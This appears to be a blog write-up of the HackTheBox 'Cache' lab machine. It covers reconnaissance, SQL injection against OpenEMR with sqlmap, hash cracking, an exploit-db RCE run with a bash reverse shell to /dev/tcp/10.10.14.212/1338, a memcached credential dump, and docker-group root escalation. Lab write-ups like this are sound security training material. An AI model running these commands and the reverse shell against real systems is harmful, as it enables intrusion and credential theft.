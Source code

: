 ```yaml
---
title: hackthebox cache walkthrough
author: fasto
date: 2020-10-21 20:55:00 +0800
categories: [Blogging, Tutorial]
tags: [getting started]
pin: true
---
```


<h1>Summary</h1>
 Hey ,<br>cashe machine was released today  <br> it's my favorite machine created by ASHacker I am going to share a writeup for it ,the machine available at HackTheBox for penetration testing<br>
in user part we do some basic enumeration gives us a credential and also we got domain which vulnerable with sqlinjection and rce we dump credential with sqlmap and than use it for rce to get shell as www and then we find creds in memcached to got user,for privilege escalation we descoverd that the user is in the group docker we got root very easily
 
  <br> 

<h2>Walkthrough</h2>
<h4>Reconnaissance</h4>
---
We start with scan ports:

```
$ nmap -A 10.10.10.188
Starting Nmap 7.60 ( https://nmap.org ) at 2020-08-21 09:17 CET
Nmap scan report for cache.htb (10.10.10.188)
Host is up (0.33s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                      
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                             
|_http-title: Cache                                                                                                                                      
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.04 seconds
```                                                                                                                                                      
From the result above we found two working ports , port 80 and port 22                                                                                   
lets start with port 80                                                                                                                                  
![Desktop View](/img/00.png)

we find login page i've tried sql injection in login form but it's failed because the website isn't affected
![Desktop View](/img/0.png)


<h4>Enumeration</h4>


so i run dirb

![Desktop View](/img/1.png)
i found two directory
javascript 
and 
jquery
when i opened jquery i found one file there functionality.js i got inside the file 
<br>password : H@v3_fun
<br>username : ash
we keep it in text and keep continue

![Desktop View](/img/2.png)


<h5>Subdomain Enumeration FUFF</h5>
looking for domain with ffuf

![Desktop View](/img/3.png)
We found domain named hms like you see in the screen
add the domain in /etc/hosts
```
10.10.10.188    hms.htb
```
we open the domain in the browser 
![Desktop View](/img/4.png)
then i discovered that the application running in this domain is vulnerable with sql injection
<br>
by some googling i found youtube video explaining the vulnerability 


<br>
```https://www.youtube.com/watch?v=DJSQ8Pk_7hc ```
<br>

We intercept with burp

![Desktop View](/img/5.png)

We save the request in file
![Desktop View](/img/6.png)

then we inject with sqlmap :
```sqlmap -r om.req  --dbs```
<br>om.req ---> the request we saved
<br>
\--dbs  ---> Enumerate databases

![Desktop View](/img/7.png)
<br>we found the name of database 
![Desktop View](/img/8.png)
<br>we need to enmerate the tables<br>
``` sqlmap -r login.req -D openemr --table ```
<br>-D      ---> name of database we want to enumrate 
<br>--table ---> Enumerate  tables
<br>we got all tables in openemr now we need to dump user and password from  users_secure<br>
``` sqlmap -r login.req -D openemr -T users_secure --dump ```

![Desktop View](/img/10.png)

![Desktop View](/img/11.png)
like you see we found a hashed password <br>
we need to crack the hash with john <br>
```
$ john /tmp/hash -wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2020-08-21 16:12) 3.333g/s 2880p/s 2880c/s 2880C/s caitlin..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
<br>
and we got  the password xxxxxx Now we can login into openemr 
<br>and by some googling we find openemr it's also affected by rce (allow us to upload shell) 
<br>we download the script from exploit-db and run it
</br>https://www.exploit-db.com/exploits/45161

![Desktop View](/img/13.png)
<br>
```python 45161.py http://hms.htb/ -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.212/1338 0>&1'```

<br> we get our reverse shell
<h4>Privilege Escalation</h4>
i run netstat command <br> ```netstat -plant```
<br>


![Desktop View](/img/14.png)


<br>and i notice the port 11211 is open in local this port of memcached service

<br>lets dump data from it 
<br>connect with telnet
```telnet localhost 11211```
<br>lets start first with STAT command to print all the general statistics of the server

<br>


```
```
STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0
STAT items:1:age 30
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:evicted_active 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 140
STAT items:1:lrutail_reflocked 0
STAT items:1:moves_to_cold 3205
STAT items:1:moves_to_warm 0
STAT items:1:moves_within_lru 0
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 0
STAT items:1:hits_to_temp 0
END
```

then 
```
-----------------------
stats cachedump 1 0



```
stats cachedump 1 0

ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]                                                                                                                                  
END   
```


get user

```
get user                                                                                                                                       
VALUE user 0 5
luffy
END
```
get passwd


```
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```
<br>![Desktop View](/img/15.png)

<br>we got user and password we connect with ssh
and we we figured out the user luffy is in doker group



we go to gtfobins 

```https://gtfobins.github.io/gtfobins/docker/```


<br>![Desktop View](/img/16.png)
```
luffy@cache:~$ docker images
 REPOSITORY TAG IMAGE ID CREATED SIZE
 ubuntu latest 2ca708c1c9cc 7 months ago 64.2MB
 ```
 
<br>![Desktop View](/img/17.png)
and we got root
